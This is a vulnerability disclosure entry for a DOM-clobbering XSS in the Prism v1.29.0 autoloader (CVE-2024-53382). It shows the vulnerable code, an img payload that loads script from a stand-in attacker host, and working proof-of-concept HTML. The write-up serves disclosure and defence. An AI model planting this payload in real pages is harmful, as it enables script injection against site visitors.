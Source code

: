 ## Prism

### Meta

+ Library: Prism
+ Stars: 12.2K
+ Version: v1.29.0
+ Fingerprint: `typeof window.Prism !== 'undefined'`
+ Payload: ```<img name="currentScript" src="https://attack.hulk/a.js"></img>```
+ Impact: XSS
+ CVE: [CVE-2024-53382](https://nvd.nist.gov/vuln/detail/CVE-2024-53382)
+ Status: Reported
+ Foundby: TheHulk

### Library

https://github.com/PrismJS/prism

URL:
+ `https://cdnjs.cloudflare.com/ajax/libs/prism/1.29.0/plugins/autoloader/prism-autoloader.js`
+ `https://cdnjs.cloudflare.com/ajax/libs/prism/1.29.0/plugins/autoloader/prism-autoloader.min.js`

### Vulnerable Code Snippet

```js
currentScript: function () {
				if (typeof document === 'undefined') {
					return null;
				}
				if ('currentScript' in document && 1 < 2 /* hack to trip TS' flow analysis */) {
					return /** @type {any} */ (document.currentScript);
				}
                ...
			},
```

```js
var script = Prism.util.currentScript();
if (script) {
    var autoloaderFile = /\bplugins\/autoloader\/prism-autoloader\.(?:min\.)?js(?:\?[^\r\n/]*)?$/i;
    var prismFile = /(^|\/)[\w-]+\.(?:min\.)?js(?:\?[^\r\n/]*)?$/i;

    var autoloaderPath = script.getAttribute('data-autoloader-path');
    if (autoloaderPath != null) {
        // data-autoloader-path is set, so just use it
        languages_path = autoloaderPath.trim().replace(/\/?$/, '/');
    } else {
        var src = script.src;
        if (autoloaderFile.test(src)) {
            // the script is the original autoloader script in the usual Prism project structure
            languages_path = src.replace(autoloaderFile, 'components/');
        }
    }
}
```

## PoC

host malicious file at `/components/prism-css.min.js`

```html
<!--Library-->
<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/prism/1.29.0/themes/prism.css" integrity="sha512-jtWR3pdYjGwfw9df601YF6uGrKdhXV37c+/6VNzNctmrXoO0nkgHcS03BFxfkWycOa2P2Nw9Y9PCT9vjG9jkVg==" crossorigin="anonymous" referrerpolicy="no-referrer" />
<script src="https://cdnjs.cloudflare.com/ajax/libs/prism/1.29.0/components/prism-core.js" integrity="sha512-jhk8ktzYxeUWJ/vx3Lzp53xE0Jgsp+UxA3wDyRSYeMBdPutgCp6jiGvTjyZm+R7cn3Lu/0MnEIR421EOdl3qAg==" crossorigin="anonymous" referrerpolicy="no-referrer"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/prism/1.29.0/plugins/autoloader/prism-autoloader.js"></script>

<pre><code class="language-css">p { color: red }</code></pre>
<!--Library-->

<!--Payload-->
<img name=currentScript src="http://localhost:9999/a.js"></img>
<!--Payload-->
```

```html
<!DOCTYPE html>
<html>
<head>
<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/prism/1.29.0/themes/prism.css" integrity="sha512-jtWR3pdYjGwfw9df601YF6uGrKdhXV37c+/6VNzNctmrXoO0nkgHcS03BFxfkWycOa2P2Nw9Y9PCT9vjG9jkVg==" crossorigin="anonymous" referrerpolicy="no-referrer" />
</head>

<body>

<img name=currentScript src="http://localhost:8000/a.js"></img>

<script src="https://cdnjs.cloudflare.com/ajax/libs/prism/1.29.0/components/prism-core.js" integrity="sha512-jhk8ktzYxeUWJ/vx3Lzp53xE0Jgsp+UxA3wDyRSYeMBdPutgCp6jiGvTjyZm+R7cn3Lu/0MnEIR421EOdl3qAg==" crossorigin="anonymous" referrerpolicy="no-referrer"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/prism/1.29.0/plugins/autoloader/prism-autoloader.js"></script>

<pre><code class="language-css">p { color: red }</code></pre>

</body>
</html>
```
